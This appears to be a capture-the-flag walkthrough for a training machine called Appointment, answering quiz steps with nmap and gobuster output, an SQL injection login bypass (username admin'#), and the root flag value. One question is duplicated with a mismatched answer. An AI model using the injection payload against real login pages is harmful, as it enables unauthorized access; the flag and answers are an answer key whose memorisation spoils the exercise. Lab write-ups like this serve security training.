 #### Guide on APPOINTMENT CTF Machine

Gobuster is used for brute-forcing directories on a web server.

1. What does the acronym SQL stand for?<br>
structured query language

2. What is one of the most common type of SQL vulnerabilities?<br>
sql injection

3. What is the 2021 OWASP Top 10 classification for this vulnerability?<br>
A03:2021-Injection

4. What does Nmap report as the service and version that are running on port 80 of the target?<br>
Apache httpd 2.4.38 ((Debian))

	```bash
	nmap -p 80 -sV 10.129.79.112
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 11:47 PST
	Nmap scan report for 10.129.79.112
	Host is up (0.24s latency).

	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.38 ((Debian))
	```
	
5. What is the standard port used for the HTTPS protocol?<br>
443
	- the standard port for http is 80 while in https it is 443	
	
6. What is a folder called in web-application terminology?<br>
directory

7. What is a folder called in web-application terminology?<br>
404

8. Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?<br>
dir

	```bash
	gobuster dir -u http://10.129.15.211/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
	===============================================================
	Gobuster v3.6
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.129.15.211/
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.6
	[+] Timeout:                 10s
	===============================================================
	Starting gobuster in directory enumeration mode
	===============================================================
	/images               (Status: 301) [Size: 315] [--> http://10.129.15.211/images/]
	/css                  (Status: 301) [Size: 312] [--> http://10.129.15.211/css/]
	/js                   (Status: 301) [Size: 311] [--> http://10.129.15.211/js/]
	/vendor               (Status: 301) [Size: 315] [--> http://10.129.15.211/vendor/]
	/fonts                (Status: 301) [Size: 314] [--> http://10.129.15.211/fonts/]
	Progress: 16826 / 87665 (19.19%)
	```

9. What single character can be used to comment out the rest of a line in MySQL?<br>
#

10. If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?<br>
congratulations

	- go to the login page of the website and do an sql injection
	user: admin'#
	pass: anypassword
	
	- this will comment out the password and only login using the user
	SELECT * FROM users WHERE username='admin'#' AND password='anypassword'
	
11. Submit root flag<br>
e3d0796d002a446c0e622226f42e9672




	
	
	
